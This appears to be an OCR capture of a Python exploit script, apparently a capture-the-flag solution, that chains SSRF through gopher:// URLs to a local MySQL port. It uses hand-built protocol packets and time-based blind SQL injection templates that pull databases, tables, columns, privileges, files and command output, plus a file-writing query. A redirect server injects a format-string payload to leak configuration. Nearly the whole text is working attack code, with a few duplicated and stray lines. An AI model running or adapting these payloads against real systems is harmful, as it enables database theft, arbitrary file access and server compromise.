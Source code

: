 ```python
		0x00,                                                       # auth-response            string[n]
		] + list(bytearray('mysql_native_password')) + [            # auth plugin name         string[NUL]
		0x00                                                        # [NUL]
		] + list(bytearray(connect_attrs_data))                     # client_connect_attrs                           

	return ''.join(map(lambda x: '{:02x}'.format(x), list(auth_response_packet)))

def encode(data):
	packet = 'gopher://0:3306/_'
	for i in range(len(data) / 2):
		packet += '%' + data[2*i:2*(i+1)]
	return unicode(packet)

def construct_query_packet(query):
	query = query.encode('hex')
	query_length = '{:x}'.format((len(query) / 2 ) + 1).rjust(2, '0')
	return encode(construct_handshake_response(db_user) + query_length + '00000003' + query + '0100000001') # COM_QUERY + len(query) + query


get_dbs = 'SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_table_names_from = 'SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x{db_name}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_column_names_from = 'SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name=0x{tbl_name}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_column_contents_from = 'SELECT SLEEP((SELECT ASCII(substr((SELECT {column} FROM {db_name}.{tbl_name}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_privileges_from = 'SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(privilege_type) FROM information_schema.user_privileges WHERE grantee=0x{user}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_file = 'SELECT SLEEP((SELECT ASCII(substr((SELECT LOAD_FILE(0x{filename})), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_env = 'SELECT SLEEP((SELECT ASCII(substr((SELECT @@global.{env}), {index}, 1)) >> {shift} & 1) * {slp_time})'
create_file = 'SELECT {contents} INTO DUMPFILE "{filename}"'
get_env = 'SELECT SLEEP((SELECT ASCII(substr((SELECT @@global.{env}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_command = 'SELECT SLEEP((SELECT ASCII(substr((SELECT {f}(0x{c})), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_file_not_exists = 'SELECT SLEEP(isnull(LOAD_FILE(0x{file})))'

resp = HTMLParser().unescape(requests.post(HOST, {'url': 'http://host.docker.internal:1338/'}).text)

'''
from SimpleHTTPServer import SimpleHTTPRequestHandler
from SocketServer import TCPServer

class MyServer(TCPServer):
	allow_reuse_address = True

class HTTP_RequestHandler(SimpleHTTPRequestHandler):
	def do_GET(self):
		self.send_response(301)
		self.send_header('Location', '{dest.__init__.__globals__[db_conf]}')
		return self.end_headers()

MyServer(('', 1338), HTTP_RequestHandler).serve_forever()
```